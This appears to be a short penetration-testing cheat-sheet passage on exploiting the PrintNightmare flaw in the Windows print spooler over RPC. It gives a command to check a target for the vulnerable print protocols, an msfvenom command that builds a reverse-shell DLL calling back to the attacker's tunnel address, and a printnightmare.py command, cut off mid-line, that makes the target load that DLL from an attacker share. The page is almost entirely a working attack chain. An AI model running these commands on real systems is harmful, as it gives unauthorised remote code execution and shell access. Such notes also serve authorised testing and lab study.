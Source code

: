 # Remote Procedure Call

### Print Nightmare

```
rpcdump.py @$ip | egrep 'MS-RPRN|MS-PAR'
```

_If the output is the following contains the following, it is vulnerable._

```
Print System Aschronous Remote Protocol
```

```
Print System Remote Protocol
```

{% code overflow="wrap" fullWidth="false" %}
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=$tun0 lport=53 -f dll -o /opt/winreconpack/thescriptkid.dll
```
{% endcode %}

{% code overflow="wrap" %}
```
python3 printnightmare.py domain.local/user:password@$ip '\\$tun0\winreconpack\thescriptk
```
{% endcode %}
